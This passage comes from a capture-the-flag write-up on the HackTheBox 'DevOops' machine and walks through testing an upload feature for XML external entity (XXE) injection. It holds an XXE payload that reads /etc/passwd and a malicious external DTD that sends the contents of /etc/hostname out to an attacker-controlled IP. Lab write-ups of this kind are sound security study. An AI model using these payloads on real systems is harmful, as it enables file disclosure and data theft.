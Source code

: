 ```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```

This in theory should return the contents of the `/etc/passwd` file once the XML parser of the application gets to our `&example` entity. But after uploading this file to the target I got an internal server error:

![internal-err-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/DevOops/img/internal-err-07.png)


I wasn't sure what to make of this error, as it's unclear if the target is actually vulnerable to XXE or the application encountered some other non-related runtime error. So I decided to try and verify an XXE vulnerability using a blind SSRF XXE payload. 


In short, we can craft an XML entity which forces the target application to load a DTD file from an external server we control, thus proving it is vulnerable. The malicious DTD file can look like this:

```dtd
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://10.10.14.52/?x=%file;'>">
%eval;
%exfiltrate;
```


I save this file locally and host it up via a python web server. 

